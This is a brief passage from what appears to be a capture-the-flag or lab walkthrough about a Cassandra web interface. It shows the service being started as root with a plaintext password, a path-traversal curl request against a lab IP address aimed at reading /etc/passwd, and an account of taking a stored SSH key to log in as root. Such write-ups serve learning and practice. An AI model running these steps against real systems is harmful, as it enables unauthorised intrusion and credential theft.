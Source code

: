 so lets try the following:
```
sudo cassandra-web -B 0.0.0.0:4444 -u cassie -p SecondBiteTheApple330
```

so we are now running on 9876

so if we run
```
curl --path-as-is http://192.168.199.240:9876/../../../../../../../../etc/passwd
```

it just hangs.... tried a couple other things and then remembered that random id stored under /home/cassie and pulled that down locally. Tried logging in as anthony and root since they are the only two that have ssh access and it worked for root.